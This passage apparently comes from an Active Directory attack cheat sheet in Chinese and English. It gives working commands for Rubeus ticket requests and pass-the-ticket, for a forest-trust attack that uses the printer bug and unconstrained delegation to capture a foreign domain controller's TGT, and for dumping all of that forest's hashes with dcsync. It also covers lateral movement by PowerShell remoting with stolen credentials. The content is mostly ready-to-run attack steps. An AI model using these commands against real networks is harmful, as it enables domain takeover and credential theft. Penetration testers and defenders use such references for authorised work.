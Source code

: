 - 使用Rubeus：
```cpp
.\Rubeus.exe asktgs /ticket:<kirbi file> /service:"Service's SPN" /ptt
```
## 打破林信任-攻击其他林
```cpp
如果我们与外部林具有双向信任，并且我们设法破坏了启用了无限制委派的本地林上的计算机（默认情况下，DC具有此权限），则可以使用printerbug强制将外部林的根域的DC设置为 向我们认证。 然后，我们可以捕获它的TGT，将其注入内存中，并使用DCsync来转储其哈希值，从而可以对整个林进行完全访问。
```
```cpp
#监控TGT请求:
Rubeus.exe monitor /interval:5 /filteruser:target-dc$

#利用打印服务漏洞
SpoolSample.exe target-dc$.external.forest.local dc.compromised.domain.local

#得到Ticket注入内存
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>

#dump其他域的hash:
lsadump::dcsync /domain:external.forest.local /all 
```
## 域内横向控制Lateral Movement
### Powershell Remoting
```cpp
#Enable Powershell Remoting on current Machine (Needs Admin Access)
Enable-PSRemoting

#Entering or Starting a new PSSession (Needs Admin Access)
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```
### Remote Code Execution with PS Credentials
```cpp
$SecPassword = ConvertTo-SecureString '<Wtver>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\<WtverUser>', $SecPassword)
Invoke-Command -ComputerName <WtverMachine> -Credential $Cred -ScriptBlock {whoami}
```
### Import a powershell module and execute its functions remotely
```cpp
#Execute the command and start a session
Invoke-Command -Credential $cred -ComputerName <NameOfComputer> -FilePath c:\FilePath\file.ps1 -Session $sess 

#Interact with the session
Enter-PSSession -Session $sess
```
### Executing Remote Stateful commands
